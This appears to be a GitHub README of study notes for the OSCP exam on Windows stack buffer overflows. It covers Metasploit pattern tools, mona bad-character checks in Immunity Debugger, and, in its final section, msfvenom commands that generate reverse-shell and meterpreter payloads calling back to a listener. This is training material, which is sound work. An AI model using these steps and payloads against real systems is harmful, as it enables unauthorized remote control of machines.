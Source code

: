 # BoF4OSCP

## 1st step

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000

run python3 offset.py
```

check on mona where is IP
Take the EIP address overwritten from mona
EIP 386F...

## 2nd step, pattern create

```
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337 (EIP ADDRESS)
[*] Exact match at offset 2003
```

## Control EIP

edit eipOverwrite.py with the correct offset
run python3 eipOverwrite.py
check on Immunity if EIP is well overwritten with 4B4B4B

## Finding bad chars

python3 findingBadchars.py
right click on ESP, follow in dump
```
!mona compare -f c:\mona\bytearray.bin -a 005FF910(ESP ADDRESS)
```

## Fire up the reverse shell

We can also create an encoded one if some sort of protections are presents
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 EXITFUNC=thread -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.11.1 LPORT=4444 -e shikata_ga_nai -i 3 -f c -b '\x00\x0a\x0d' (mybadchars)
edit finalBuff
setup a listener
python3 finalbuff
```
